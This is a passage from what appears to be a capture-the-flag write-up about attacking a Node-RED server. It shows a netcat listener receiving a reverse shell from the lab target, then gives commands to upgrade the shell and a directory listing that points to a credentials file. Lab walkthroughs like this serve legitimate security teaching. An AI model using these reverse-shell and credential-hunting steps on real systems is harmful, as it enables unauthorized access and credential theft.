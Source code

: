 ![](3.png)

We receive our shell

```
└─$ nc -lvnp 6666                                                                                                                                   
listening on [any] 6666 ...
connect to [10.8.4.147] from (UNKNOWN) [10.10.157.39] 54476
bash: cannot set terminal process group (434): Inappropriate ioctl for device
bash: no job control in this shell
nodered_svc@nodered:/opt/nodered$
```

We can upgrade our shell with
```
# Run
script /dev/null -c bash
# Or
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Then press CTRL+Z
# Then run 
stty raw -echo;fg

# Then run
export TERM=xterm

# In case we need to modify columns and rows, run 'stty -a' in attack box terminal to find values
# Then
stty rows <ROWS_NUMBER>
stty cols <COLUMNS_NUMBER>
```

We find `/opt/nodered/.node-red` folder, that contains `flows_cred` file with credentials (same folder can be found in  `nodered_svc`'s home directory directory)
```
nodered_svc@nodered:/opt/nodered$ ls -lha .node-red
total 184K
drwxr-xr-x   4 nodered_svc nodered_svc 4,0K Mär 10  2024 .
drwxr-xr-x   3 nodered_svc nodered_svc 4,0K Mär  9  2024 ..
-rw-r--r--   1 nodered_svc nodered_svc  16K Mär 10  2024 .config.nodes.json
-rw-r--r--   1 nodered_svc nodered_svc  15K Mär 10  2024 .config.nodes.json.backup
-rw-r--r--   1 nodered_svc nodered_svc  133 Mär 10  2024 .config.runtime.json
-rw-r--r--   1 root        root          40 Mär 10  2024 .config.runtime.json.backup
-rw-r--r--   1 nodered_svc nodered_svc  661 Mär 10  2024 .config.users.json
-rw-r--r--   1 nodered_svc nodered_svc  541 Mär 10  2024 .config.users.json.backup
-rw-r--r--   1 root        root         163 Mär 10  2024 flows_cred.json
-rw-r--r--   1 root        root         191 Mär 10  2024 .flows_cred.json.backup
-rw-r--r--   1 root        root        3,0K Mär 10  2024 flows.json
-rw-r--r--   1 root        root        3,0K Mär 10  2024 .flows.json.backup
drwxr-xr-x   3 nodered_svc nodered_svc 4,0K Mär  9  2024 lib
drwxr-xr-x 123 nodered_svc nodered_svc 4,0K Mär  9  2024 node_modules
-rw-r--r--   1 nodered_svc nodered_svc  199 Mär 10  2024 package.json
-rw-r--r--   1 nodered_svc nodered_svc  75K Mär 10  2024 package-lock.json
-rw-rw-r--   1 nodered_svc nodered_svc  23K Mär 10  2024 settings.js
```
